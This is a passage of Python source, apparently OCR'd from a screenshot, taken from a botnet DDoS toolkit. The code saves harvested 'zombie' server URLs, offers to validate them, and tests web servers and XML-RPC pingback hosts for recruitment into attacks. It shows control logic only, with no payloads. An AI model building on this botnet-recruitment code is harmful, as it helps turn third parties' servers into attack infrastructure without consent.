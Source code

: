                         print("\n[Info] [AI] Temporal data correctly removed...\n")
                    else:
                        with open(self.humans_file, "w") as f:
                            for z in all_zombies_found:
                                if z.endswith(os.linesep):
                                    z = z.replace(os.linesep, "")
                                if z not in zz or z+os.linesep not in zz:
                                    f.write(z+os.linesep)
                        f.close()
                        print("\n[Info] [AI] Correctly saved at: 'botnet/humans.txt'\n")
                    print('-'*25 + "\n")
                if new_zombies and new_zombies > 0:
                    if not self.options.forceyes:
                        check_url_link_reply = input("[AI] Do you want to check if NEW possible zombies are valid? (Y/n)\n")
                        print('-'*25 + "\n")
                    else:
                        check_url_link_reply = "Y"
                    if check_url_link_reply == "n" or check_url_link_reply == "N":
                        print("[AI] "+self.exit_msg+"\n")
                        pass
                    else:
                        print("\n" + '='*44)
                        test = self.testing(all_zombies_found)
                else:
                    print("[Info] [AI] NOT any NEW possible zombies found! -> [Exiting!]\n")
            except Exception:
                print ("[Error] [AI] Something wrong (auto)searching...\n")

        # test web 'zombie' servers -> show statistics
        if options.test: 
            try:
                self.banner()
                zombies = self.extract_zombies()
                if not zombies:
                    return
                test = self.testing(zombies)
                self.update_missions_stats() # update mothership missions stats
            except Exception:
                print ("\n[Error] [AI] Something wrong testing!\n")
                if DEBUG == True:
                    traceback.print_exc()

        # test XML-'rpc' pingback vulnerable servers -> update list
        if options.testrpc:
            try:
                self.banner()
                rpcs = self.extract_rpcs()
                if not rpcs:
                    return
                testrpc = self.testing_rpcs(rpcs)
                self.update_missions_stats() # update mothership missions stats
            except Exception:
                print ("\n[Error] [AI] Something wrong testing X-RPCs!\n")
                if DEBUG == True:
                    traceback.print_exc()
